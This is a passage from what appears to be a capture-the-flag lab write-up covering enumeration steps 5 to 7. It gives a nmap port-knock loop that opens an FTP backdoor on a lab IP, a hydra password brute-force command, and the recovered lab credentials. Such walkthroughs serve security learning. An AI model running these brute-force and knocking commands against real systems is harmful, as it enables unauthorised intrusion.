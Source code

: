 ![writeup.enumeration.steps.4.2](./screenshot04.png)  

5\. Ran a port knock using the [Spanish Armada](https://www.youtube.com/watch?v=z5YU7JwVy7s) combo to open the FTP backdoor:  
``` {.python .numberLines}
for port in 1466 67 1469 1514 1981 1986; do nmap -Pn --host_timeout 201 --max-retries 0 -p ${port} 192.168.92.167; done
nmap -p21 192.168.92.167

```

6\. Found FTP password for user `veronica` using `hydra` and the custom wordlist created earlier:  
``` {.python .numberLines}
hydra -l veronica -P veronica.wordlist 192.168.92.167 ftp → veronica/babygirl_veronica07@yahoo.com

```

![writeup.enumeration.steps.6.1](./screenshot05.png)  

7\. Found FTP password for user `eric` from the network capture file `012987veronica.cap`:  
``` {.python .numberLines}
eric/ericdoesntdrinkhisownpee

```
